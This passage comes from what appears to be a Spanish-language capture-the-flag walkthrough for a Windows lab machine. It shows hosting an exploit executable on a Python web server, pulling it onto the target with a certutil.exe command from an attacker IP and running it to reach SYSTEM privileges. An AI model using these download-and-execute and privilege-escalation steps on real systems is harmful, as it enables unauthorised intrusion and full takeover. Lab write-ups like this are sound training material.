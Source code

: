 Después de descárgarlo, vamos a meterlo a la máquina, para esto usaremos **certutil.exe** como en otras máquinas con **Windows**.

Muy bien, hagámoslo por pasos:

* Levantamos un servidor con **Python** en donde este el Exploit ejecutable:
```bash
python3 -m http.server                                                            
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Nos metemos a la **directorio /Temp** y creamos un directorio nuevo, lo llamaremos **privesc**:
```batch
C:\Users\kostas\Desktop>cd C:\Windows/Temp
mkdir Privesc
cd Privesc
```

* Y dentro de la máquina usamos la **herramienta certutil.exe**:
```batch
C:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://10.10.14.12:8000/Exploit.exe Exploit.exe
certutil.exe -urlcache -split -f http://10.10.14.12:8000/Exploit.exe Exploit.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.
```

* Verificamos si está el Exploit:
```batch
C:\Windows\Temp\Privesc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EE82-226D
 Directory of C:\Windows\Temp\Privesc
06/04/2023  04:44 ��    <DIR>          .
06/04/2023  04:44 ��    <DIR>          ..
06/04/2023  04:44 ��           560.128 Exploit.exe
               1 File(s)        560.128 bytes
               2 Dir(s)   5.652.480.000 bytes free
```

* Y lo activamos:
```batch
C:\Windows\Temp\Privesc>Exploit.exe
Exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Windows\Temp\Privesc>whoami
whoami
nt authority\system
```

¡LISTO!, ya entramos, solamente busca la flag en el directorio Administrator. Ahora, veamos como sería aplicar la enumeración de la máquina y la escalada de privilegios en **Metasploit**.
